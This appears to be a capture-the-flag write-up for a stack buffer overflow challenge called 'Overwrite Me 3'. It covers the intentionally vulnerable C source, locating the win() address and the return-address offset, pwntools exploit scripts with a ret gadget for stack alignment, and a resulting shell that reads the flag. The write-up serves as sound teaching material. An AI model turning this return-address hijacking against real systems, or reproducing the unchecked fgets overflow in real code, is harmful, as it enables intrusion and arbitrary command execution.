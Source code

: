 ## Overwrite Me 3

This challenge had me jump to another function in the code, without the function ever being called  in the c code.

The buffer array was only 32 bytes, but `fgets()` did not stop writing until it had written 64 bytes. This would overflow the buffer. 

We can see that the `win()` function executes `/bin/sh` which would give me a shell. Therefore that was the location to jump to.

```c
int main()
{
    char buffer[32];

    ignore_me_init_buffering();
    ignore_me_init_signal();
	
    printf("You now know how to hit payloads on offsets. Use this knowledge to force a win out of this program!\n\n");
	printf("Let's play. Guess a number between 1-10:\n");

	fgets(buffer, 64, stdin);

	if (strcmp(buffer, "5\n") != 0)
	{
		lose();
	}
	else
	{
		lose_again();
	}

	return 0;

}

lose()
{
	printf("Wrong. You lose!\n");
}

lose_again()
{
	printf("Pfft. Also wrong. You lose again!\n");
}

win()
{
	printf("Correct! You won! Here comes the shell\n");
	system("/bin/sh");
}
```

My first step was to find the address of the `win()` function. This was done by using `objdump -t`
on the binary file. 
The output here is truncated to better fit on the screen.

I saw that the win function had the address `0x00000000004013a6` in memory.

```c
0000000000000000       F *UND*  0000000000000000              strcmp@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              signal@@GLIBC_2.2.5
0000000000000000  w      *UND*  0000000000000000              __gmon_start__
000000000040129b g     F .text  0000000000000033              kill_on_timeout
0000000000404068 g     O .data  0000000000000000              .hidden __dso_handle
0000000000402000 g     O .rodata        0000000000000004              _IO_stdin_used
00000000004013d0 g     F .text  0000000000000065              __libc_csu_init
00000000004013a6 g     F .text  0000000000000023              win
00000000004040b0 g       .bss   0000000000000000              _end
0000000000401180 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
0000000000401150 g     F .text  000000000000002f              _start
0000000000404070 g       .bss   0000000000000000              __bss_start
00000000004012f4 g     F .text  0000000000000084              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
00000000004012ce g     F .text  0000000000000026              ignore_me_init_signal
000000000040138f g     F .text  0000000000000017              lose_again
0000000000000000       F *UND*  0000000000000000              exit@@GLIBC_2.2.5
0000000000404070 g     O .data  0000000000000000              .hidden __TMC_END__
0000000000401000 g     F .init  0000000000000000              .hidden _init
00000000004040a0 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```

The next step was to debugg the binary in gdb and find the offsett.
By running the binary with the string `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ` I could find out where the offsett was.

Below is how the registers looked after i executed the binary in gdb with the string above.
I could see that the `rsp` register contained `KKKKLLLLMMMMNNNNOOOOPPP`. The `rsp` register contains the address that gets popped into the `rip` register on a `ret` instruction. The `rip` register contains the address of the next instruction. Therefore I want to put the address of the `win()` function in the `rip`     register, to jump there and get a shell.

The padding for this exploit is therefore `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ`

In x86-64 the value in the `rsp` register does not get popped to `rip` unless it is a valid address. This was my first mistake, because i looked for the overflow in the `rip` register, but the values i passed in to find the offset were not valid addresses. x86 on the other hand does pop the value in `esp` into `eip` without checking if it is a valid address (`esp` and `eip` are the equivalent registers in x86).


```c
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x007ffff7e8da37  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x1
$rsp   : 0x007fffffffdb48  →  "KKKKLLLLMMMMNNNNOOOOPPP"
$rbp   : 0x4a4a4a4a49494949 ("IIIIJJJJ"?)
$rsi   : 0x1
$rdi   : 0x007ffff7f94a70  →  0x0000000000000000
$rip   : 0x00000000401377  →  <main+131> ret
$r8    : 0x10
$r9    : 0x0
$r10   : 0x007ffff7d82360  →  0x000f001a00007b95
$r11   : 0x246
$r12   : 0x007fffffffdc58  →  0x007fffffffdf12  →  "/home/mathias/ctf/kcsc/overwrite_me/overwrite3"
$r13   : 0x000000004012f4  →  <main+0> endbr64
$r14   : 0x0
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

I could now write my exploit. 

```python
from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ"

win = p64(0x00000000004013a6)

p = remote("20.240.63.48", 30007)

p.recvuntil(b"Let's play. Guess a number between 1-10:\n")

p.sendline(padding + win)

p.interactive()
```

By running it i got this:
```shell
$ python3 exploit.py
[+] Opening connection to 20.240.63.48 on port 30007: Done
[*] Switching to interactive mode
Wrong. You lose!
[*] Got EOF while reading in interactive
```
I got an EOF (End Of File) Error. This was not supposed to happen. I did not really know what the problem was until i was sent this article by @tbi: https://ropemporium.com/guide.html

The issue seemed to be that the stack was unaligned. A so-called `MOVEAPS` issue. The link above said this: 
> movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function or return further into a function to skip a `push` instruction.

I decided to try pad an extra `ret` before the `win()` address. I was recommended https://github.com/JonathanSalwan/ROPgadget by @nicw.
This program can find ROPgadgets in a binary.
Running the program on the binary given in the challenge:

```shell
$ ROPgadget --binary overwrite3 --opcode c3
Opcodes information
============================================================
0x000000000040101a : c3
0x0000000000401184 : c3
0x00000000004011b0 : c3
0x00000000004011f0 : c3
0x000000000040121e : c3
0x0000000000401220 : c3
0x000000000040129a : c3
0x00000000004012cd : c3
0x00000000004012f3 : c3
0x0000000000401377 : c3
0x000000000040138e : c3
0x00000000004013a5 : c3
0x00000000004013c8 : c3
0x000000000040141f : c3
0x0000000000401434 : c3
0x0000000000401444 : c3
0x0000000000401454 : c3
```

The opcode `c3` is the opcode for the `ret` instruction, which i found here: https://shell-storm.org/x86doc/RET.html

By choosing one of the addresses above, I tried again.

```python
from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ"

win = p64(0x00000000004013a6)

ret = p64(0x000000000040101a)

p = remote("20.240.63.48", 30007)

p.recvuntil(b"Let's play. Guess a number between 1-10:\n")

p.sendline(padding + ret + win)

p.interactive()
```


This time it worked and I did not get an EOF Error.
```shell
$ python3 exploit.py
[+] Opening connection to 20.240.63.48 on port 30007: Done
[*] Switching to interactive mode
Wrong. You lose!
Correct! You won! Here comes the shell
$ ls
flag.txt
overwrite_me3
ynetd
$ cat flag.txt
KCSC{w4it_th4ts_nOt_aLLow3d}
```